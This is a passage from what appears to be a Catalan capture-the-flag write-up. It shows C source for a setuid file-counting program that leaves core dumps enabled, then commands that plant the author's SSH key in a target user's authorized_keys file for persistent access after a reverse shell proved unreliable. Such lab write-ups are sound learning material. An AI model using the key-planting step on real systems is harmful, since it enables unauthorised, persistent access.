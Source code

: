     if (characters > 0)
    {
        words++;
        lines++;
    }

    snprintf(summary, 256, "Total characters = %d\nTotal words      = %d\nTotal lines      = %d\n", characters, words, lines);
    printf("\n%s", summary);
}


int main()
{
    char path[100];
    int res;
    struct stat path_s;
    char summary[4096];

    printf("Enter source file/directory name: ");
    scanf("%99s", path);
    getchar();
    stat(path, &path_s);
    if(S_ISDIR(path_s.st_mode))
        dircount(path, summary);
    else
        filecount(path, summary);

    // drop privs to limit file write
    setuid(getuid());
    // Enable coredump generation
    prctl(PR_SET_DUMPABLE, 1);
    printf("Save results a file? [y/N]: ");
    res = getchar();
    if (res == 121 || res == 89) {
        printf("Path: ");
        scanf("%99s", path);
        FILE *fp = fopen(path, "a");
        if (fp != NULL) {
            fputs(summary, fp);
            fclose(fp);
        } else {
            printf("Could not open %s for writing\n", path);
        }
    }

    return 0;
}

```


*Nota:* Després de varis intents amb la reverse shell de python, acabo creant una clau ssh per afegir-la al usuari dasith i aixi poder-me connectar per ssh (aprofitant que té el port SSH obert). Ho faig perque la reverse shell em donava problemes a l'hora de executar */opt/count*. 

Creem una clau ssh:  
`ssh-keygen -f secret -P 'contrasenya'`

Creem el directori *.ssh* si no existeix:  
`mkdir /home/dasith/.ssh/`

Creem/afegim al fitxer authorized_keys la nostra clau publica, que ens permetrà connectar-nos a través de ssh amb l'usuari dasith:  
`echo $CONTINGUT_SECRET.PUB >>  /home/dasith/.ssh/authorized_keys`

Ens connectem a través de ssh utilitzant la clau creada:  
```